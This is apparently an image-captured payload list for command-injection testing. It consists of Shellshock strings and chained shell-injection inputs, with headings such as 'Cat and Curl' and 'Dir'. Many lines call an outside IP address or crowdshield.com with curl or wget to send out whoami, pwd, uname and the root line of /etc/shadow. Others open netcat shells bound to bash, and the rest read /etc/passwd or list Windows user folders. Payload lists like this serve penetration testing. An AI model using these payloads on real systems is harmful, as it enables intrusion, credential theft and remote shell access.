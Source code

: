 ```
() { :;}; /bin/bash -c "sleep 1 && curl http://135.23.158.10/.testing/shellshock.txt?sleep=1&?vuln=6"
() { :;}; /bin/bash -c "sleep 1 && echo vulnerable 1"
() { :;}; /bin/bash -c "sleep 3 && curl http://135.23.158.10/.testing/shellshock.txt?sleep=3&?vuln=7"
() { :;}; /bin/bash -c "sleep 3 && echo vulnerable 3"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.10/.testing/shellshock.txt?sleep=6&?vuln=8"
() { :;}; /bin/bash -c "sleep 6 && curl http://135.23.158.10/.testing/shellshock.txt?sleep=9&?vuln=9"
() { :;}; /bin/bash -c "sleep 6 && echo vulnerable 6"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=17?user=\`whoami\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=19?pwd=\`pwd\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=21?shadow=\`grep root /etc/shadow\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=23?uname=\`uname -a\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=25?shell=\`nc -lvvp 1235 -e /bin/bash\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=27?shell=\`nc -lvvp 1237 -e /bin/bash &\`"
() { :;}; /bin/bash -c "wget http://135.23.158.10/.testing/shellshock.txt?vuln=4"
```

**Cat and Curl**
```
cat /etc/hosts
$(`cat /etc/passwd`)
cat /etc/passwd
() { :;}; curl http://135.23.158.130/.testing/shellshock.txt?vuln=12
| curl http://crowdshield.com/.testing/rce.txt
& curl http://crowdshield.com/.testing/rce.txt
; curl https://crowdshield.com/.testing/rce_vuln.txt
&& curl https://crowdshield.com/.testing/rce_vuln.txt
curl https://crowdshield.com/.testing/rce_vuln.txt
 curl https://crowdshield.com/.testing/rce_vuln.txt ||`curl https://crowdshield.com/.testing/rce_vuln.txt` #' |curl https://crowdshield.com/.testing/rce_vuln.txt||`curl https://crowdshield.com/.testing/rce_vuln.txt` #\" |curl https://crowdshield.com/.testing/rce_vuln.txt
curl https://crowdshield.com/.testing/rce_vuln.txt ||`curl https://crowdshield.com/.testing/rce_vuln.txt` #' |curl https://crowdshield.com/.testing/rce_vuln.txt||`curl https://crowdshield.com/.testing/rce_vuln.txt` #\" |curl https://crowdshield.com/.testing/rce_vuln.txt
$(`curl https://crowdshield.com/.testing/rce_vuln.txt?req=22jjffjbn`)
```
**Dir**
```
dir
| dir
; dir
$(`dir`)
& dir
&&dir
&& dir
| dir C:\
; dir C:\
& dir C:\
&& dir C:\
dir C:\
| dir C:\Documents and Settings\*
; dir C:\Documents and Settings\*
& dir C:\Documents and Settings\*
&& dir C:\Documents and Settings\*
dir C:\Documents and Settings\*
| dir C:\Users
; dir C:\Users
```